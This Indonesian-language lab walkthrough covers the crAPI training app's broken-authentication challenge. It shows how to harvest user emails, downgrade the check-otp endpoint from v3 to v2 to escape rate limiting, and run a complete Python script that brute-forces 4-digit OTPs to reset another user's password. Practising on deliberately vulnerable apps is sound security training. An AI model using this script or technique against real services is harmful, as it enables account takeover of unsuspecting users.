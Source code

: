 # Broken User Authentication
Kesalahanpahaman pengembang aplikasi mengenai batasan otentitikasi menyebabkan penyerang dapat memperoleh kendali penuh atas akun pengguna lain di sistem, seperti membaca data pribadi mereka dan  melakukan tindakan sensitif atas nama mereka. Sistem tidak mungkin bisa membedakan mana tindakan dari penyerang dan mana yang dari pengguna yang sah.

## Challenge 3 - Reset the password of a different user
- Hidupkan tool Burp Suite dan pergi ke halaman **Community**


- Pada tool Burp Suite terdeteksi bahwa halaman tersebut melakukan request ke endpoint API `/community/api/v2/community/posts/recent` yang response nya memuat email dari pengguna lain yang dapat kita manfaatkan untuk melakukan request **reset password**


- Sekarang kita logout dari akun yang kita gunakan kemudian kita coba fitur **Forgot Password**

- Lalu isi dengan email yang kita gunakan untuk mengakses web crAPI dan tekan tombol **Send OTP**


- Pada tool Burp Suite terdeteksi endpoint API `/identity/api/auth/forget-password` untuk mengirim kode OTP ke email


- Buka mailhog di tab baru dengan URL `http://IP_Server:8025`, disini kita menerima email yang berisi kode OTP

- Kode OTP tersebut berupa angka yang terdiri dari 4 digit


- Sekarang kita coba masukkan kode OTP yang salah ke halaman forgot password dan masukkan password baru lalu tekan tombol **Set Password** maka kita akan mendapat pesan `Invalid OTP`


- Pada tool Burp Suite terdeteksi endpoint API `/identity/api/auth/v3/check-otp` yang digunakan untuk mengecek kode OTP dan mereset password


- Klik kanan request tersebut dan pilih **Send to Repeater**

- Pindah ke tab Repeater dan tekan tombol **Send**

- Disini kita bisa mencoba memasukkan kode OTP yang salah berulang kali untuk memastikan apakah ada pembatasan request atau tidak. Setelah beberapa kali kita mendapat pesan bahwa request kita mencapai batas maksimal

- Setelah kita coba mengubah endpoint dari `v3` menjadi `v2` kita mendapati bahwa endpoint ini tidak memiliki batas request yang ditentukan sehingga memungkinkan kita untuk melakukan brute force kode OTP dan mengubah password user lain yang kita temukan di halaman **Community**


- Disini kita akan membuat program menggunakan bahasa python untuk melakukan brute force kode OTP dan melakukan reset password pada akun user lain. Pertama-tama kita akan mengirim request ke endpoint `/identity/api/auth/forget-password` untuk mengirim kode OTP ke email. Setelah itu mereset password dengan melakukan uji coba kode OTP dari `0000` hingga `9999` sesuai format kode OTP yang terima di email melalui endpoint `/identity/api/auth/v2/check-otp`. Berikut ini adalah kode program yang kita gunakan, simpan script dibawah ini dengan nama `brute_otp_crapi.py`
```sh
import requests
import time

start = time.time()

url = 'http://IP_Server:8888' #ubah url sesuai url server anda
email = 'email' #ubah dengan email yang anda temukan

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': url+'/forgot-password',
    'Origin': url,
    'Connection': 'close',
    'Content-Type': 'application/json',
    'Cache-Control': 'no-cache',
    'Pragma': 'no-cache',
}

# Mengirim kode OTP ke email
response = requests.post(url+'/identity/api/auth/forget-password', headers=headers, json={"email": email})

if response.status_code == 200:
	json_response = response.json()
	print(json_response["message"])
	response.close()
	print("\nMelakukan bypass kode OTP dengan brute force\n")
	
	#bypass kode OTP dengan brute force
	for i in range(10000):
		#padding angka 0
		if i < 1000:
			otp = f"{i:04}"
		else:
			otp = i
		
		data_reset_password = {
	           'email': email,
	           'otp': otp,
	           'password': 'password', #ubah password sesuai keinginan anda
		}
		
		r = requests.post(url+'/identity/api/auth/v2/check-otp', headers=headers, json=data_reset_password)
		print('[Kode OTP:{}, Response:{}]'.format(otp,r.status_code))
		
		if r.status_code == 200:
			print("Berhasil melakukan reset password")
			print(r.json())
			r.close()
			break
		elif r.status_code == 503:
			print("Request telah dibatasi")
			print(r.json())
			r.close()
			break
		
		r.close()
		
	
else:
	print("Permintaan tidak dapat dikirim")
	
end = time.time()
print(f"\nWaktu eksekusi:{(end-start)*10**3:.03f} ms")

```

- Jalankan program diatas dan tunggu hingga proses selesai
```sh
python3 brute_otp_crapi.py
``` 

